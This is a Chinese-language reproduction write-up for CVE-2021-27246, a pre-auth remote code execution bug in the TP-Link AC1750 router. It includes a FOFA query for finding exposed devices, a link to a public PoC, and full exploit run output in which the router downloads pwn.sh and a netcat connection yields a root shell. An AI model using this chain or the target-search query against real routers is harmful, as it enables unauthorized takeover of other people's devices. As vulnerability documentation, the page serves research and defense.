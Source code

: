 # TP-Link AC1750 预认证远程代码执行漏洞CVE-2021-27246

## 漏洞描述

在TP-Link AC1750的tdpServer守护程序中存在漏洞，没有检查json数据的大小，导致了缓冲区溢出，通过缓冲区溢出，可以导致代码执行。

参考阅读：

- https://www.synacktiv.com/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

## FOFA

```
app="TP_LINK-AC1750"
```

## 漏洞复现

- poc：https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020

```
$ bash exploit.sh 
[+] Launching web server for distribution of pwn.sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload

[+] Trying the root shell (Low probability of success...)
nc -v 192.168.0.1 12345
nc: connect to 192.168.0.1 port 12345 (tcp) failed: Connection refused

[ ] If shell hasn't succeed, don't worry, we retry 

INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload
192.168.0.1 - - [30/Nov/2020 12:10:59] "GET /pwn.sh HTTP/1.1" 200 -

[+] Trying the root shell (High probability of success...)
nc -v 192.168.0.1 12345
Connection to 192.168.0.1 12345 port [tcp/*] succeeded!
uname -a
Linux ArcherA7v5 3.3.8 #1 Mon Sep 14 19:52:46 CST 2020 mips GNU/Linux
id
uid=0(root) gid=0(root)
^C[-] Stopping Webserver, now
Terminated
```

